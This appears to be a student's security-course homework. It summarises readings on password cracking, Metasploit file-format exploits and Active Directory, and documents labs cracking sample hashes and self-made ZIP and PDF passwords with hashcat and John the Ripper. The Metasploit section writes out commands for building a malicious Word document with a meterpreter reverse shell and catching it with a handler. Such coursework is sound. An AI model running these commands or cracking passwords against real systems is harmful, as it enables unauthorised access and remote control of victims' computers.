# X) Summaries / Tiivistelmät

## Cracking Passwords with Hashcat

- Passwords are stored as hashes 
- **Hashing** is the process of converting data (e.g. a password) into a hash (fixed-length string), using an algorithm, such as MD5. It's a one-way function, meaning it's easy to compute a hash, but nearly impossible to reverse it back to the original data
- Although a password can’t be directly computed from its hash, it’s possible to guess it using a wordlist (list of passwords). This involves 1. Hashing each word in the list using the same algorithm, 2. Comparing the result hashes to the target hash, 3. If a match is found, the original password has been cracked.  
- **Hashcat** is a tool that uses wordlists/dictionaries to crack (password) hashes. The hash algorithm should be identified before attempting to crack a hash.
  - Command syntax: `hashcat -m [mode] '[hash]' [wordlist.txt] -o [output_file]`

- **Hashid** is a tool for identifying the hash type/algorithm (e.g. MD5). The tool shows the algorithm and the corresponding Hashcat mode number to be used with `-m`
  - Command syntax: `hashid -m [hash]`

- Note: setup & installation are detailed in task A)
  
## Crack File Password With John

- A range of files of different formats can be locked with a password to protect the contents.
- **John the Ripper** is a password-cracking tool that uses techniques like dictionary attacks to crack/recover passwords. It can be used against password protected files and supports a wide variety of file formats.

- Note: setup & installation are detailed in task B)
  
## Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials

- All systems store passwords in some form, some more securely than others. 
- Credentials are key targets for attackers to gain access to systems, and move laterally in networks after establishing initial foothold.
- **Key**: tools, techniques, and attack methods used to steal or crack credentials.

**<ins>Password storage:</ins>**
- Most systems store user credentials in a database or a text file.
- Storage mechanisms:
    - One-way hashing
        - Hash functions turn cleartext → fixed hash value (e.g., MD5, SHA-256).
        - Not reversible and not encryption.
        - The purpose of hashing is to verify the integrity of the clear text provided 
        - Salting should be used to avoid identical hashes for identical cleartext (passwords) and to make password cracking harder.
        - Example command for generating hashes on Linux: ` echo "example" | sha256sum`

- Storage vulnerabilities:
    - Password attacks are now easier due to better computing power and freely available tools.:
        - Unencrypted storage, faster GPUs and distributed computing, Weak hash algorithms, highly available dictionaries (e.g. rainbow tables)
        - Salting helps by making identical passwords result in different hashes. Linux systems typically use salted passwords. 

**<ins>Common password/credential attacks:</ins>**

- Generic attack process: Enumerate users (discover valid usernames) -> Crack passwords 

- Exploiting common weaknesses:
    - Default, reused, simple or common passwords
    - Compromised admin accounts
      
- Network-based attacks:
    - Sniffing network traffic over unsecured networks (e.g. public wifi)
    -  Man-in-the-middle (MITM) attacks against clear text protocols, encryption (ciphered protocols) or relay attacks. 
    - Compromised network devices (routers, switches, wireless APs) can leak credentials
    - Brute-force attacks with tools using dictionaries/ credential tables. Variety of tools include: Medusa, THC-Hydra, Brutus, auxiliary Metasploit modules etc.

**<ins>Password cracking tools:</ins>**
- John the ripper: 
    - Popular, multi-platform
    - Supports multiple modes of cracking: dictionary, rule-based, and brute-force attacks.
    - Can pause and resume cracking.
    - Can automutate wordlists (adds numbers, changes cases, etc.)
- Hashcat:
    - Very fast, has GPU support
    - Supports over 2000+ hashing algorithms.
    - Ideal for large-scale cracking with more powerful hardware setups.

**<ins>Defending against password attacks / Improving password security:</ins>**
- Both storage and transmission of passwords over a network should be secured.
    - Storage side defense: OS-level protection, limit access based on necessity, intrusion detection, endpoint protection, auditing
    - Transmission defense: Encryption (TLS/SSL).
      
- Use strong hashing algorithms with salts.
- Support/Use longer and stronger passwords (length > complexity).
- Enable MFA (Multi-Factor Authentication)
- Use certificate-based authentication (e.g. public-key systems).
- Don’t reuse passwords, avoid dictionary words and obvious patterns.

## Metasploit: File-Format Exploits

**File-format exploits:**
- Vulnerabilities in file readers/programs that open files (e.g., Word, PDF readers).
- Rely on user interaction: Malicious files are made to run code when a user opens them. The file can be of any format.
- Commonly used in spear-phishing attacks
- Typically very effective but the success of the attack depends on how much information can be gained about the target (reconnaissance) before implementing the attack.

**Using Metasploit for File-Format Exploits:**
1. Search for file-format exploits
    - `msf > search fileformat date:<year>`
    - Filters available file-format exploits by year
      
2. Select a module:
    - `msf > use exploit/windows/fileformat/word_mshtml_rce`
    - Loads the Word MSHTML exploit module
      
3. View and configure options
    - `msf exploit > options`
    - Examples of module & payload options:
        - `FILENAME`: Output file name (e.g., msf.docx)
        - `OBFUSCATE`: Obfuscates malicious JavaScript content 
        - `LHOST`: The listen address (Attacker’s IP for reverse connection)
        - `LPORT`: Listening port (e.g., 443)
          
4. Set the payload (reverse shell)
    - `msf  exploit > set payload windows/x64/meterpreter/reverse_tcp`
    - `msf exploit > set LHOST 10.0.1.45`
    - `msf exploit > set LPORT 443`
    - `msf exploit > exploit`
    - Creates a malicious file (e.g. msf.doc) that connects back to the attacker when opened.
    - The exported malicious file/document can be delivered to targets e.g. via email.  

**Sending payloads/ Handling the payload connection:**
- The attacker’s system should be set up to catch the connection coming from the victim’s system (set up before the target opens the malicious file)

1. Set up a multi-handler listener:
    - A tool on the attacker’s system that waits for incoming connections from exploited systems. It "catches" the reverse shell connection, allowing remote control of the victim’s system

    - `msf exploit > use exploit/multi/handler`
    - `msf exploit (handler) > set payload windows/meterpreter/reverse_tcp`
    - `msf exploit (handler) > set LHOST 10.0.1.45`
    - `msf exploit (handler) > set LPORT 443`
    - `msf exploit (handler) > exploit -j`
    - The `-j` flag runs the handler as a background job.

2. Wait for victim to open the document:
    - Once the malicious file is opened on a vulnerable system, a shell is presented to the attacker:
      
    - `[*] Sending stage (749056 bytes) to 10.0.1.12`
    - `[*] Meterpreter session 1 opened (10.0.1.45:443 -> 10.0.1.12:2718) msf exploit (handler) > sessions -i 1`
    - `[*] Starting interaction with 1.. >`
    - This gives the attacker remote control over the system.

## The Ultimate Kali Linux Book: Understanding Active Directory

- An ** Active directory (AD)** is directory service within Microsoft Windows Server. 
- ADs are used for central management of users, groups, devices and policies within a network/domain/organization. AD is common in enterprise environments.
- Understanding trust relationships and domain authentication is key to exploiting AD systems.

**Benefits of ADs:**
- Simplifies management of large organizations
- Enables centralized control using a domain controller. A **domain controller** is a Windows server with AD installed & configured, and is the central authority for network management within a windows domain environment.
    - Replaces the need for setting up local user accounts on each device separately
    - Supports centralized management for:
        - User profile management of clients & servers in the domain
        - Network information & configuration management
        - Group Policy Objects (GPOs)** to apply security settings/policies across users, groups and devices on the domain
        - Clients’ registry configurations and policies
    - Enables user login across different computers that are members of the domain (with domain user account rather than a local user account of a device).

**Key Components of an AD**
- <ins>Logical structure components</ins>
    - Define how objects are grouped/organized/managed and how trust and security boundaries are set up in the directory
      
    - **Domain**
      - A collection of/ a container for a set of objects(OUs)
      - The smallest unit where policies and security settings apply centrally.
      - Acts as a security boundary within the network
      
    - **Tree**
      - A set of domains in a forest arranged in a hierarchical structure / with a hierarchical relationship
      - Domains within a tree share a contiguous namespace.
      - Used to create logical security boundaries between each domain within the same forest.
      
    - **Forest**
      - Highest-level/Top-level structure in AD. Represents the entire AD infrastructure.
      - Contains trees and domains that share a common configuration, schema, and global catalog
      - Defines administrative, security & trust boundaries for managing objects of an entire organization/directory infrastructure.

- <ins>Object components (stored in the AD database) </ins>
    - Active Directory stores information about ”objects” on the network
    - **Objects** are things that AD directly manages and interacts with (e.g. to assign policies)
    - **Supported objects**: Users, Groups, OUs, Computers, Printers, Shared folders 
        - Organizational Units (OUs)
            - Used to organize objects (that share a common factor) as units within the AD. 
            - Often used to group by e.g. department or role.
        - Groups
            - Used to apply policies or permissions to multiple users at once (e.g. with GPOs)

**Trust Relationships in AD**
- Trusts allows users in one domain or forest to access resources in another domain or forest. 
- A variety of domain and forest configurations are possible, allowing for different types of trust relationships/models within Active Directory.
  
- Trust types/models include:
    - **One-way trust**: Only one domain can access the other but not the other way around 
    - **Two-way trust**: Both domains can access each other 
    - **Transitive trust**: Trust can pass through/extend to connected domains within the same forest. 
    - **Non-transitive trust**: Trust does not extend to other domains. 
    - **Forest trust**: Trust between different forests.
      
- AD trust relationships can be exploited to compromise a Windows domain without exploiting security vulnerabilities within the OS. 

**Local vs. Domain Login**
- **Local login**: 
    - Credentials stored in the device's SAM file (located in the directory C:\Windows\System32\config). Username is in plaintext, password in NTLM v1 hash

- **Domain login**:
    - By default, uses an unsecure LDAP protocol to check entered credentials with the domain controller. The password is sent as NTLM v2 hash.
    - The domain controller verifies credentials and applies security policies accordingly.
    - The trust between domain clients and the domain controller using LDAP can be exploited

## References / Lähteet:
- Karvinen 2022: Cracking Passwords with Hashcat at https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ 
- Karvinen 2023: Crack File Password With John at https://terokarvinen.com/2023/crack-file-password-with-john/ 
- Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials at https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/ 
- Kennedy et al 2025: Metasploit: File-Format Exploits at https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter9.xhtml#:-:text=File-Format%20Exploits 
- Singh 2025: The Ultimate Kali Linux Book: Understanding Active Directory at https://learning.oreilly.com/library/view/the-ultimate-kali/9781835085806/Text/Chapter_12.xhtml#_idParaDest-272

# A) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

### <ins>Setup and installation</ins>   
1. Install the apps & create a separate directory for the task:
    - `sudo apt-get update`
    - `sudo apt-get -y install hashid hashcat wget`
    - `mkdir hashed`
    - `cd hashed`
  
2. Download a (large) dictionary /wordlist from the web:
    - `wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz`
  
3. Uncompress and extract the contents of the dictionary. Delete the compressed file.
    - `tar -xf rockyou.txt.tar.gz`
    - `rm rockyou.txt.tar.gz`
      
4. Check the contents of the dictionary.
    - `wc -l rockyou.txt`,  `head rockyou.txt`, `less rockyou.txt`
    
      

### <ins>Crack with a sample hash: 6b1628b016dff46e6fa35684be6acc96</ins>   
1. Identifying the hash type with hashid (required by hashcat):
    - `hashid -m 6b1628b016dff46e6fa35684be6acc96`
    - The command:
      - `hashid` tool used to identify the type of a specified hash
      - `-m` Includes  the corresponding hashcat mode in output. Used to help identify the correct mode to use with hashcat.
      - `6b1628b016dff46e6fa35684be6acc96`the hash to be cracked

    - Since MD5 (mode 0) is the most common hash, it’s selected for the next steps.
    
      

2. Cracking the hash
    - `hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved`
    - The command:
      - `hashcat` the program used for cracking the hash
      - `-m 0` type of the hash, retrieved with either 'hashid' or 'hashcat --example-hashes'
      - `6b1628b016dff46e6fa35684be6acc96`the hash to be cracked
      - `rockyou.txt ` The wordlist used for the attack
      - `-o solved` saves the solution as a new plain text file "solved" inside the working directory.
      
    - Output:
    
      
      
      

    - Results interpretation:
      - `Status: Cracked` indicates that hashcat found a matching password in the dictionary and the cracked password was saved in the “solved” -file.
      - `Status: Exhausted` indicates that the tool failed to find a matching password in the dictionary.
    
3. Check the solution:
    - `cat solved`
    - (Alternative: If no output file was specified, the results can be directly displayed with `hashcat -m 0 6b1628b016dff46e6fa35684be6acc96 rockyou.txt --show` )

      

## References / Lähteet:
- Karvinen 2022: Cracking Passwords with Hashcat at https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ 

# C) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

### <ins>Setup and installation</ins>   

**1. Installing prerequisites:**
  - `sudo apt-get update`
  - `sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev libbz2-1.0 libbz2-dev atool zip wget` 
  
  - Installed packages:
      - `micro` text editor
      - `bash-completion ` for auto-completing commands & filenames in the terminal with tab
      - `git` for cloning git repositories / source code
      - `build-essential` tools for compiling software (C compiler and related tools)
      - `libssl-dev ` for JtK requirements, SSL support (used in encryption/decryption).
      - `zlib1g zlib1g-dev` for ZIP format support with John
      - `libbz2-1.0 libbz2-dev` for 7zip support with John
      - `atool zip` compression tools, 'aunpack foo.zip', 'unzip foo.zip'
      - `wget` web downloader for command line

  - Note: `zlib-gst` omitted from the package list due to the error - E: unable to locate package zlib-gst.
  
**2. Downloading & Compiling John the Ripper from source:**
  - Download John the Ripper (Jumbo version): 
    - `git clone --depth=1 https://github.com/openwall/john.git`
      - `git clone` copies the whole project 
      - `--depth=1` restricts copy only to latest file versions, reducing download size and duration

       

  - Compile John the Ripper from source:
    - `cd john/src/` 
    - `./configure` Detects the environment & creates a makefile for make “make” command. Many C & C++ programs on linux are compiled with a variation of './configure && make'. Note: if additional dependencies are installed in the future, ./configure should be run again. **
    - `make -s clean && make -sj3` Compiles jusing 3 threads. The correct make command is printed at the end of './configure' output as shown in the picture (e.g. -sj3 in my case vs. -sj4 in course materials). 

                   
        

    - Once John is compiled, the binaries/executables and scripts appear in run/.
      - `cd ../run/`      # /john/run directory
      - `ls -1` List files & directories showing one entry per line
        
        
      
**3. Run the John-tool & verify it works:**
- `cd`
- `$HOME/john/run/john`
- Output shows version information, installation successful.
  
     

### <ins>Crack a password protected ZIP file</ins>   

**1. Downloading the ZIP & attempting to open it directly:**
  - `wget https://TeroKarvinen.com/2023/crack-file-password-with-john/tero.zip`
  - `unzip tero.zip`
  - The file contents are encrypted and cannot be accessed without a password. The output will only include empty directories.
  
     

**2. Cracking the ZIP password (two-step process):**
  
A) Extract the hash from ZIP File into a new file:
  - `$HOME/john/run/zip2john tero.zip >tero.zip.hash` This file contains the hash needed to crack the password.
  - `cat tero.zip.hash`  Check the extracted hash

     

        
 
B) Perform a dictionary attack against the hash:
  - `$HOME/john/run/john tero.zip.hash `
  - Key line in the output: `butterfly (tero.zip/secretFiles/SECRET.md)`.
    
     

**3. Unzip the File Using the Cracked Password:**
  - `unzip tero.zip ` & enter the password “butterfly”
  - `cat secretFiles/SECRET.md` Check the file contents

     

## References / Lähteet:
- Karvinen 2023: Crack File Password With John at https://terokarvinen.com/2023/crack-file-password-with-john/ 

# E) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus.

**<ins>1. Find a suitable tool from the John library:</ins>**
- Check the binaries/executables/scripts in the `/john/run` library: `cd john/run`, ` ls -1 `
- Select `pdf2john`  which is a script for extracting password hash data from encrypted PDF files

  

**<ins>2. Install prerequisites:</ins>**
- PDFTK is a command-line tool for manipulating PDF files. It’s used for e.g. encrypting and decrypting PDF files (adding/removing passwords). 
- `sudo apt-get update`
- `sudo apt-get install pdftk-java`

  

**<ins>3. Download a sample PDF file:</ins>**
- `wget https://pdfobject.com/pdf/sample.pdf ` (Not password protected)

  

**<ins>4. Protect the PDF file with a password:</ins>**
-  Protect the file with a password: `pdftk sample.pdf output protected.pdf user_pw abcd1234`
  - Creates an output file from the input file and sets a user password to it. The new pdf file will require the password to open.

    

- Remove the original file: `rm sample.pdf`     
- Verify password protection by trying to open the file directly:`xdg-open protected.pdf `

  

**<ins>5. Crack the password protected file:</ins>**

**A) Extract the hash from the file into a new file:**
- `$HOME/john/run/pdf2john.pl protected.pdf > protected.pdf.hash `
- Check the extracted hash: `cat protected.pdf.hash`

  

**B) Perform a dictionary attack against the hash:**
- `$HOME/john/run/john protected.pdf.hash`

  

**<ins>6. Open the file with the cracked password:</ins>**
- `xdg-open protected.pdf` & enter the password “abcd1234”
  
  
    
  

## References / Lähteet:
- Karvinen 2023: Crack File Password With John at https://terokarvinen.com/2023/crack-file-password-with-john/
- CybrZone (2024). Cracking a password protected PDF document! Available at: https://www.youtube.com/watch?v=-AnQ2GAbFUY 
- Ali, H. (2024). How to Install PDFtk on Linux. Available at: https://www.baeldung.com/linux/install-pdftk

‌
# F) Tiiviste. Tee itse tai etsi verkosta salasanan tiiviste, jonka saat auki. Murra sen salaus.

**<ins>1. Generating / finding a hash to be cracked:</ins>**

**Case 1 - Select a password from a dictionary & create a hash from the selected word**
- `less rockyou.txt` 
- Selected word: `coolcat`
  
- Generate a SHA-256 hash of the selected word: `echo -n coolcat | sha256sum`
  - Calculates the hash for the echo output string, `-n` flag prevents a newline (\n) from being appended to the string
 
- Copy the generated hash: `ddd9ab3e81e06b4c405d4cc401d6651de4ec99513fe314ab7f69d66db026a1b6`
  
  

**Case 2 - Find a ready-made hash from the web**
- Example hash `b89eaac7e61417341b710b727768294d0e6a277b ` fetched from [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)
- Hash algorithm is known to be SHA-1 beforehand.

**<ins>2. Identifying the hash type with hashid):</ins>**
- **Case 1**: `hashid -m ddd9ab3e81e06b4c405d4cc401d6651de4ec99513fe314ab7f69d66db026a1b6 `
  - Selected type: SHA-256 (mode 1400)
    
- **Case 2**: `hashid -m b89eaac7e61417341b710b727768294d0e6a277b`
  - Selected type: SHA-1 (mode 100)

